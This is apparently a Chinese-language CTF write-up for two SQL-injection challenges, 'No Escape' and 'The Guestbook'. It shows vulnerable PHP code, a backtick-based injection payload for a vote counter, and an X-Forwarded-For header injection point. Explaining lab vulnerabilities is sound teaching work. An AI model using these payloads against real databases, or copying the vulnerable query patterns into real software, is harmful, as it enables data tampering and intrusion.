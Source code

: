 * * *

一个投票的功能，使用`mysql_real_escape_string()` 对参数进行了过滤，不过并不需要绕过它，因为它并不会过滤重音符（backtick）

漏洞代码：

```
function noesc_voteup($who)
{
        if ( (stripos($who, 'id') !== false) || (strpos($who, '/') !== false) ) {
                echo GWF_HTML::error('No Escape', 'Please do not mess with the id. It would break the challenge for others', false);
                return;
        }

        $db = noesc_db();
        $who = mysql_real_escape_string($who);
        $query = "UPDATE noescvotes SET `$who`=`$who`+1 WHERE id=1";
        if (false !== $db->queryWrite($query)) {
                echo GWF_HTML::message('No Escape', 'Vote counted for '.GWF_HTML::display($who), false);
        }

        noesc_stop100();
}

```

利用方式：

```
vote_for=bill` = `bill` %2b 111 where bill=0 --%20 
```

当然也可以写的简短一点

```
barack`=111# 
```

## The Guestbook

* * *

一个留言本的程序，其中大部分参数都经过了过滤，但是 IP 地址直接带入 insert 语句，可以构造一个 x-forwraded-for 来实现注入

需要在 insert 语句中使用 select 子查询

漏洞代码：

```
function gbook_getIP()
{
        if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
                return $_SERVER['HTTP_X_FORWARDED_FOR'];
        }
        elseif (isset($_SERVER['HTTP_VIA'])) { 
                return $_SERVER['HTTP_VIA'];
        }
        else {
                return $_SERVER['REMOTE_ADDR'];
        }
}

```
